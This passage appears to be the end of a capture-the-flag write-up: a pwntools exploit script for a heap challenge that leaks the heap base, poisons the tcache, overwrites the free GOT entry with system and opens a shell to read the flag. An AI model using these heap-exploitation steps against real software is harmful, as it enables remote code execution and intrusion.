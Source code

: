 ```

def race_horse():
    r.sendlineafter(b'Choice: ', b'3')

def exploit():
    # leak heap
    add_horse(0, 0x10, b'A' * 0x10)
    free_horse(0)
    add_horse(0, 0x10, b'\xFF')
    # fill system GOT
    for i in range(1, 5):
        add_horse(i, 0x10, b'X' * 0x10)
    race_horse()
    r.recvuntil(b' ')
    heap_base = u32(r.recvn(10).strip().ljust(4, b'\x00')) << 12
    log.info('heap_base: %#x', heap_base)
    r.recvuntil(b'WINNER:')
    # tcache list
    add_horse(10, 0x18, b'A' * 0x18)
    add_horse(11, 0x18, b'B' * 0x18)
    free_horse(10)
    free_horse(11)
    # change tcache bins to free GOT
    free_got = 0x404010
    edit_horse(11, p64(free_got ^ (heap_base >> 12)) + p64(heap_base + 0x10), 1)
    add_horse(12, 0x18, b'/bin/sh\0' + b'C' * 0x10)
    # change free GOT to system
    ret_gadget = 0x401E48
    system_plt = 0x401090
    payload = flat(
        p64(0),
        p64(system_plt),
        p64(ret_gadget),
    )
    add_horse(13, 0x18, payload)
    free_horse(12)
    r.sendline(b'cat flag.txt')
    r.interactive()

if __name__ == '__main__':
    exploit()

```

Runnig it locally works
![image](https://user-images.githubusercontent.com/113513376/228827277-498951c6-2e84-44b1-a80d-eb0c60de5bb9.png)

Running it remotely works also (set LOCAL=False in script)
![image](https://user-images.githubusercontent.com/113513376/228827711-c78dbee4-90d2-4406-a1be-ada6e8c7f1fc.png)


